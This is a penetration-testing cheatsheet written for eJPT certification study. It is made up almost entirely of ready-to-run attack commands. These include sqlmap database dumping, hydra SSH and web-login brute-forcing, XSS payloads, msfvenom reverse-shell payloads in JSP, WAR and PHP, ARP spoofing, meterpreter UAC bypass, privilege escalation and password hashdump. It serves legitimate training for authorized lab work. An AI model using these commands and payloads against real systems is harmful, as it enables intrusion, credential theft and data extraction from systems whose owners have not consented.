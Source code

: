 # eJPT-Cheatsheet
This is a Cheatsheet for eJPT exam + course.

## Nmap
nmap -sn 10.10.10.0/24\
nmap -sV -p- -iL targets -oN nmap.initial -v\
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p<port> --script=vuln -v <target-IP>

## fPing
fping -a -g 10.10.10.0/24 2>/dev/null > targets

## IP Route
**Syntax**\
ip route add \<Network-range\> via \<router-IP\> dev \<interface\>\
eg.\
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0

## John
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt

## dirb
dirb http://10.10.10.10/ \
dirb http://10.10.10.10/dir -u admin:admin

*I suggest you to use dirbuster for better speed. Keep the threads at 20. Use /usr/share/wordlists/dirb/common.txt wordlist.*

## Netcat
**Listening for reverse shell**\
nc -nvlp 1234

**Banner Grabbing**\
nc -nv 10.10.10.10 \<port\>

## SQLMap
#### Check if injection exists
sqlmap -r Post.req\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"

#### Get database if injection Exists
sqlmap -r login.req --dbs\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs\

#### Get Tables in a Database
sqlmap -r login.req -D dbname --tables\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables

#### Get data in a Database tables
sqlmap -r login.req -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump\
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump

## Hydra
**SSH Login Bruteforcing**\
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u 10.10.10.10 ssh\
hydra -v -V -u -l root -P passwords.txt -t 1 -u 10.10.10.10 ssh\
*You can use same for FTP, just replace ssh with ftp*

**HTTP POST Form**\
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V

*You will know which wordlists to use when the time comes*


## XSS
\<script\>alert(1)\</script\>\
\<ScRiPt\>alert(1)\</ScRiPt\>

*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10\

## FTP server Commands 
get filename               #to Receive file\
put filename >             #to upload file \
cd /../.. >                #to Change remote working directory\
ls /.. >                   #to List contents of remote directory

## Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid\>\
hashdump
  
## Windows Command Line
**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users

**List drives on the machine**\
wmic logicaldisk get Caption,Description,providername


